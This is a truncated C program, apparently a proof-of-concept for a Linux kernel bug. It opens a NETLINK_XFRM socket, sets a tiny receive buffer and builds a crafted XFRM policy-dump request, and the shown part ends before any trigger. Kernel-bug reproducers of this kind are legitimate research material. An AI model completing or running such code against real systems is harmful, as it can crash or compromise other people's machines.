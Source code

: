 #define _GNU_SOURCE
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <asm/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <linux/netlink.h>
#include <linux/xfrm.h>
#include <sched.h>
#include <unistd.h>
 
#define BUFSIZE 2048
 
 
int fd;
struct sockaddr_nl addr;
 
struct msg_policy {
    struct nlmsghdr msg;
    char buf[BUFSIZE];
};
 
void create_nl_socket(void)
{
    fd = socket(PF_NETLINK,SOCK_RAW,NETLINK_XFRM);
    memset(&addr,0,sizeof(struct sockaddr_nl));
    addr.nl_family = AF_NETLINK;
    addr.nl_pid = 0; /* packet goes into the kernel */
    addr.nl_groups = XFRMNLGRP_NONE; /* no need for multicast group */
 
}
 
void do_setsockopt(void)
{
    int var =0x100;
 
    setsockopt(fd,1,SO_RCVBUF,&var,sizeof(int));
}
 
struct msg_policy *init_policy_dump(int size)
{
    struct msg_policy *r;
 
    r = malloc(sizeof(struct msg_policy));
    if(r == NULL) {
        perror("malloc");
        exit(-1);
    }
    memset(r,0,sizeof(struct msg_policy));
 
    r->msg.nlmsg_len = 0x10;
    r->msg.nlmsg_type = XFRM_MSG_GETPOLICY;
    r->msg.nlmsg_flags = NLM_F_MATCH | NLM_F_MULTI |  NLM_F_REQUEST;
    r->msg.nlmsg_seq = 0x1;
    r->msg.nlmsg_pid = 2;
    return r;
 